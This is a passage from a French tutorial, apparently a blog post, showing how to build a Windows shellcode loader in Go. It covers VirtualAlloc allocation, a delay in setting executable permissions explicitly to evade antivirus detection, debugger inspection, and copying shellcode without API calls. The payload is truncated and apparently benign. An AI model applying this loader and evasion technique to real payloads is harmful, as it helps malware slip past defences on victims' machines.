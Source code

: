 Ce qui va nous donner :

```go
package main  
  
import (  
	"encoding/hex"  
	"golang.org/x/sys/windows"  
	"log"  
)  
  
  
func main() {  
	shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883...")

	shellcodeExec, err := windows.VirtualAlloc(  
		uintptr(0), //[in, optional] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.MEM_COMMIT|windows.MEM_RESERVE, //[in] DWORD flAllocationType,  
		windows.PAGE_READWRITE, //[in] DWORD flProtect  
		)
		  
	if err != nil {  
		log.Fatal("Error while VirtualAlloc:", err)  
	}

	fmt.Printf("Address: %x", shellcodeExec)  
	fmt.Scanln()
}
```
Donc en premier argument, on passe l'adresse mémoire où on aimerais allouer notre mémoire. Comme ça nous est égal, et que l'argument est optionel, on lui passe 0. Ensuite la taille à allouer,  donc la taille de notre shellcode. Le prochain argument est le type d'allocation mémoire et finalement les droits sur cette zone mémoire. A terme, on va la rendre executable, mais pour des questions de détections d'antivirus, on va faire ça plus tard.

Pour voir un peu ce qui ce passe, j'ai ajouté un print de l'adresse mémoire ou on va allouer la mémoire ainsi qu'un `fmt.Scan.ln()` qui va nous permettre de stopper le programme pour voir ce qu'il se passe avec le debugger. 

On run le programme et l'adresse mémoire de la zone allouée va être affichée

```
Address: 1fcd76c0000
```
A l'aide de `x64dbg` on va pouvoir s'attacher au process, aller sans section mémoire et chercher cette adresse.
![](/img1.png)
On voit que notre zone mémoire est bien en Read Write et si on clique dessus, on voit qu'elle ne contiens encore rien.
![](/img2.png)

### Copier le shellcode
On pourrait utiliser  [RtlCopyMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory) pour faire ça, mais on va plutôt utiliser une méthode sans appel d'API. Cette fonction piqué d'un [exemple](https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go) à Tim White est une implémentation de la fonction memcpy en golang. Elle prend en argument d'adresse de destination et le tableau de byte à y placer. 
